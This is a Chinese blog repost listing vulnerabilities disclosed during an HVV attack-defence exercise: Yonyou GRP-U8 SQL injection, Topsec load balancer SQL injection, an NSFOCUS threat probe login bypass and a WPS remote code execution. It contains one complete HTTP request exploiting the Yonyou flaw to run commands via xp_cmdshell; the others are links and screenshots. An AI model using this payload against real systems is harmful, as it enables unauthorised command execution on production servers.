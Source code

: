 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/4-M6KCMLtfpn8vZhSDN1ng)

紧张刺激的 HVV 开始了，第一天就出来这些 0day。  

有的漏洞详情较长，不太想排版编辑，大家就点击一下链接凑合看吧。  

其中 WPS RCE 的漏洞为 9 月初就爆出来了

  
用友 GRP-U8 SQL 注入

https://www.hedysx.com/2599.html

```
POST /Proxy HTTP/1.1
Accept: Accept: \*/\*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS\_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp\_cmdshell 'ipconfig'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/kOxLp8DkyylWic0XRZkfYCc6Lrb0ibDSD8seWHPhGZIIe2DrTQ7X0nkOicN82LokG0EAibZocgIPT5IM6B8oEhk4Dw/640?wx_fmt=jpeg)

天融信 Top-app LB 负载均衡 SQL 注入漏洞

https://www.hedysx.com/2601.html

![](https://mmbiz.qpic.cn/mmbiz_jpg/kOxLp8DkyylWic0XRZkfYCc6Lrb0ibDSD8icvTOH2wSurGU8WajHH2J3JO3dibZ1oPvDlkwxrvISsictsdOXvibd6sxA/640?wx_fmt=jpeg)

绿盟 UTS 综合威胁探针管理员任意登录 - 可替换 MD5

绿盟全流量威胁分析解决方案针对原始流量进行采集和监控，对流量信息进行深度还原、存储、查询和分析，可以及时掌握重要信息系统相关网络安全威胁风险，及时检测漏洞、病毒木马、网络攻击情况，及时发现网络安全事件线索，及时通报预警重大网络安全威胁，调查、防范和打击网络攻击等恶意行为，保障重要信息系统的网络安全。

绿盟综合威胁探针设备版本 V2.0R00F02SP02 及之前存在此漏洞。

漏洞详情：https://www.hedysx.com/2612.html

![](https://mmbiz.qpic.cn/mmbiz_png/kOxLp8DkyylWic0XRZkfYCc6Lrb0ibDSD8ndDHibmI0k0hmrs3TxAiciav8v2uS7EZib1oaCXg58gx8eR2piaFicUG7JKA/640?wx_fmt=png)

WPS RCE  

https://www.hedysx.com/2622.html

![](https://mmbiz.qpic.cn/mmbiz_jpg/kOxLp8DkyylWic0XRZkfYCc6Lrb0ibDSD8EwAn7p2mLJjhfpMFHG9mP6YCUHoDbLicibnuteicDzXAmjdlESxfibW2XQ/640?wx_fmt=jpeg)